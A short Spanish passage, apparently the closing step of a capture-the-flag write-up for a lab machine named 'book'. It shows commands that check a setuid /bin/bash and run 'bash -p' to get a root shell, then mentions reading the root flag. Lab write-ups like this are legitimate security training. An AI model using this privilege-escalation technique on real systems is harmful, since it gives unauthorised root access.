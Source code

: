 En cualquier sesión que tengamos, validamos los permisos de `/bin/bash`:

```bash
reader@book:/dev/shm$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash
reader@book:/dev/shm$ bash -p
bash-4.4# whoami
root
bash-4.4#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).

